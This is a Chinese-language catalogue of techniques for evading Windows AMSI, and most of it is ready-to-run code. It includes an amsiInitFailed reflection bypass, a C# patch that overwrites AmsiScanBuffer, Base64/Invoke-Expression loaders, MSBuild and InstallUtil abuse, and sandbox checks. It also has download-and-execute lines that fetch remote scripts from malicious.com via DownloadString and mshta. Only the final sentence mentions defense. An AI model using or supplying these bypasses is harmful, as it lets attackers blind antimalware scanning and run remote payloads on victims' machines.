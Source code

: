 AMSI（Antimalware Scan Interface）是一种Windows API，用于帮助反恶意软件产品在脚本、内存等执行环境中进行恶意软件检测。尽管AMSI能够显著提高恶意软件检测的效果，攻击者仍然可以使用各种技术来规避AMSI的防御。以下是一些常见的AMSI防御规避技术及详细例子：

### 1. 禁用或绕过AMSI

#### 例子：
- **通过修改内存**：
  攻击者可以直接在内存中修改AMSI相关的函数，以禁用AMSI的功能。
  ```powershell
  [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
  ```

- **利用内存补丁**：
  使用C#代码在内存中修改AMSI相关的函数。
  ```csharp
  using System;
  using System.Reflection;
  using System.Runtime.InteropServices;
  
  public class AmsiBypass
  {
      [DllImport("kernel32")]
      public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
      [DllImport("kernel32")]
      public static extern IntPtr LoadLibrary(string name);
  
      public static void Bypass()
      {
          var amsi = LoadLibrary("amsi.dll");
          var amsiScanBuffer = GetProcAddress(amsi, "AmsiScanBuffer");
  
          unsafe
          {
              byte* ptr = (byte*)amsiScanBuffer;
              for (int i = 0; i < 6; i++)
              {
                  *ptr = 0xC3; // RET instruction
                  ptr++;
              }
          }
      }
  }
  ```

### 2. 混淆和编码

#### 例子：
- **Base64编码**：
  将恶意代码Base64编码，然后在内存中解码并执行。
  ```powershell
  $code = 'aW5zdGFsbC1wYWNrYWdlIE5ldC5OZXR3b3Jr'
  $decoded = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($code))
  Invoke-Expression $decoded
  ```

- **字符串分割和拼接**：
  将恶意代码分割成小块，然后在运行时拼接执行。
  ```powershell
  $part1 = 'Invoke-'
  $part2 = 'Expression'
  $command = $part1 + $part2
  Invoke-Expression $command
  ```

### 3. 使用反射和动态调用

#### 例子：
- **通过反射加载和执行代码**：
  使用反射从内存中加载并执行恶意代码。
  ```powershell
  $assembly = [System.Reflection.Assembly]::Load([System.Convert]::FromBase64String('base64encodedassembly'))
  $type = $assembly.GetType('Namespace.TypeName')
  $method = $type.GetMethod('MethodName')
  $method.Invoke($null, $null)
  ```

- **调用非托管代码**：
  通过P/Invoke调用非托管代码执行恶意操作。
  ```powershell
  Add-Type @"
  using System;
  using System.Runtime.InteropServices;
  public class Win32 {
      [DllImport("kernel32.dll")]
      public static extern IntPtr LoadLibrary(string dllToLoad);
      [DllImport("kernel32.dll")]
      public static extern IntPtr GetProcAddress(IntPtr hModule, string procedureName);
      [DllImport("kernel32.dll")]
      public static extern bool FreeLibrary(IntPtr hModule);
  }
  "@
  $ptr = [Win32]::LoadLibrary("user32.dll")
  ```

### 4. 利用合法工具

#### 例子：
- **利用MSBuild**：
  利用合法的MSBuild工具执行恶意代码。
  ```xml
  <Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
    <Target Name="Build">
      <Exec Command="powershell -NoProfile -ExecutionPolicy Bypass -Command Invoke-Expression -Command ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('base64encodedpowershellcode')))" />
    </Target>
  </Project>
  ```

- **利用InstallUtil**：
  利用InstallUtil工具执行恶意代码。
  ```cmd
  C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U maliciousAssembly.exe
  ```

### 5. 环境检测和逃避

#### 例子：
- **环境检测**：
  检测是否在沙盒或虚拟机中运行，如果是则改变行为或停止执行。
  ```powershell
  if (Get-WmiObject -Class Win32_ComputerSystem | Select-Object -ExpandProperty Manufacturer -eq 'VMware, Inc.') { exit }
  ```

- **延时执行**：
  通过延时执行绕过实时检测。
  ```powershell
  Start-Sleep -Seconds 60
  Invoke-Expression -Command (New-Object Net.WebClient).DownloadString("http://malicious.com/script.ps1")
  ```

### 6. 利用WMI

#### 例子：
- **通过WMI执行代码**：
  使用WMI执行恶意代码，绕过AMSI的检测。
  ```powershell
  $wmi = [wmiclass]"\\.\root\cimv2:Win32_Process"
  $wmi.Create("powershell.exe -ExecutionPolicy Bypass -File malicious_script.ps1")
  ```

### 7. 利用脚本解释器

#### 例子：
- **使用cscript或wscript**：
  利用合法的脚本解释器执行恶意代码。
  ```cmd
  cscript.exe malicious_script.vbs
  ```

- **利用mshta**：
  使用mshta执行恶意的HTML应用程序。
  ```cmd
  mshta.exe http://malicious.com/malicious.hta
  ```

通过这些技术，攻击者可以有效地绕过AMSI的防御，执行恶意代码。了解这些规避技术对于提升检测和防御能力至关重要。